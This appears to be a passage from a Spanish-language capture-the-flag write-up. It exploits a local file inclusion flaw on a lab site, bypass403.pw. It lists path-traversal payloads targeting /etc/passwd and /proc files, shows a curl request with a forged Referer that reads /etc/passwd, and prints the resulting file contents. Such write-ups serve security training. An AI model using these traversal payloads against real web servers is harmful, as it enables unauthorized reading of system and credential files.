 ```bash
 "/etc/init.d/apache2"                                                            
 "../../../../../../../../../../etc/passwd"                                       
 "../../../../etc/passwd"                                                         
 "../../../../../../../../etc/passwd"                                             
 "../../../../../../etc/passwd&=%3C%3C%3C%3C"                                     
 "../../../../../etc/passwd"                                                      
 "../../../etc/passwd"                                                            
 "../../../../../../../../../etc/passwd"                                          
 "../../../../../../etc/passwd"                                                   
 "../../../../../../../etc/passwd"                                                
 "/etc/rpc"                                                                       
 "/etc/resolv.conf"                                                               
 "/proc/meminfo"                                                                  
 "/proc/version"                                                                  
 "/proc/self/status"                                                              
 "/proc/partitions"                                                               
 "/proc/net/route"                                                                
 "/proc/loadavg"                                                                  
 "/proc/mounts"                                                                   
 "/proc/net/arp"                                                                  
 "/proc/net/dev"                                                                  
 "/proc/cpuinfo"                                                                  
 "/proc/net/tcp"                                                                  
 "///////../../../etc/passwd"                                                     
```

Probamos el siguiente comando para leer el contenido del archivo: **passwd**
```bash
curl -k "http://bypass403.pw/index.php?pages=/etc/passwd" -H "Referer: http://bypass403.pw/index.php"
```

Vemos el contenido:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bambi:x:1001:1001:bambi,,,:/home/bambi:/bin/bash
```
